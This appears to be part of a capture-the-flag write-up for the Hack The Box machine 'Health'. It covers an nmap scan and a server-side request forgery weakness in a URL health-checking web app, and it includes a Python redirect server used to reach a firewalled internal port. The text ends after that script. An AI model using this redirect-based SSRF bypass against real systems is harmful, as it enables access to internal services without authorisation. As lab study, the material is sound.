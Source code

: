 
# Methodology
Nmap scan
```shell
sudo nmap -sC -sV -oN scans/default-scan.nmap $target
```

## Port 80
Laravel 
Ubuntu 
Apache HTTP Server 2.4.29
php

## Web Application
health.htb
The web application is a health checking application for web servers. It will go the the given url and and check if there is a response then the service will send a JSON document with the contents of that URL. 

This could allow for an Server Side Request Forgery (SSRF attack). It may be possible to use this server to contact a service that cannot be reached from our perspective on the network. A target we can test this on would be the filtered port 3000 on the target system. The filtered status suggest that there may be something listening on that port but we are being blocked by a firewall.

The web application does not all you to add the target system as the monitored URL. Even if we try to trap the request and modify the request which suggests the check is being done server side. 

![](_posts/assets/img/health-htb/health-error01.png)

To get around this restriction we can try to redirect to the server that you are trying to access. Our server will send a redirect to an internal server. The vulnerable server will then make a new request to the redirected location and return the results of that internal service. 


## Setup a Redirect with Python3

```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
